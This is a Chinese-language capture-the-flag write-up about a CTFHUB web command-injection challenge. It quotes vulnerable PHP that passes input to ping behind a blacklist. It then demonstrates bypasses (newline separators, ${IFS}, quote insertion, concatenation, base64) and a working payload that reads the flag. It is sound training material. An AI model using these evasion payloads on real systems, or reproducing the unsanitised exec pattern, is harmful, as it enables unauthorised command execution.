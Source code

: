 ```yaml
---
layout:     post
title:      "CTFHUB 技能树-Web-RCE-综合过滤 wp"
subtitle:   ""
date:       2020-03-04 21:20:00
author:     "WuJ"
header-img: "img/post-bg-ctfhub.jpg"
header-mask: 0.25
tags:
    - CTFHUB
    - writeup
catalog: true
---
```




## 题目考点

- 命令执行绕过

--------

## 解题思路

![Xnip2020-03-05_20-57-49](https://tva1.sinaimg.cn/large/00831rSTgy1gcjclhhorrj310y0u0jwt.jpg)

​		给了源码，发现过滤了 `| & ; 空格 cat flag ctfhub`

​		如果输入上述符号或命令，只会回显其本身而不会被执行，需要一个个绕过

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

#### 命令分隔符

​		因为 `| 和 ;` 被过滤，首先要想办法分隔命令，可以使用多种绕过方法，一般用换行即 `%0a %0d` 即可。当然，得抓包修改，直接敲在输入框里肯定不行。

![Xnip2020-03-05_21-00-11](https://tva1.sinaimg.cn/large/00831rSTgy1gcjcnz5t9dj31310u0qtk.jpg)

我们发现 `flag_is_here` 文件夹，下一步是想办法进去

#### 绕过空格

方法很多，一般可以使用 `${IFS}`，更多请参考谷歌

#### 绕过黑名单

1. 拼接绕过

   ```shell
   ~$ echo "hello world" > flag
   ~$ a=c;b=at;c=flag;$a$b $c
   hello world
   ```

2. 单双引号

   ```shell
   ~$ c''at f''lag
   hello world
   ```

3. base64绕过

   ```shell
   ~$ `echo "Y2F0IGZsYWc="|base64 -d`
   hello world
   ```

   ![Xnip2020-03-05_21-10-57](https://tva1.sinaimg.cn/large/00831rSTgy1gcjcywtw6kj31cu0u0qkt.jpg)

   找到 flag 文件，运用上述知识继续读 flag

   ```php
   /?ip=%0acd${IFS}f''lag_is_here%0ac''at${IFS}f''lag_244281822710491.php
   ```

![Xnip2020-03-05_21-12-30](https://tva1.sinaimg.cn/large/00831rSTgy1gcjd2bvlntj31cl0u0ngq.jpg)

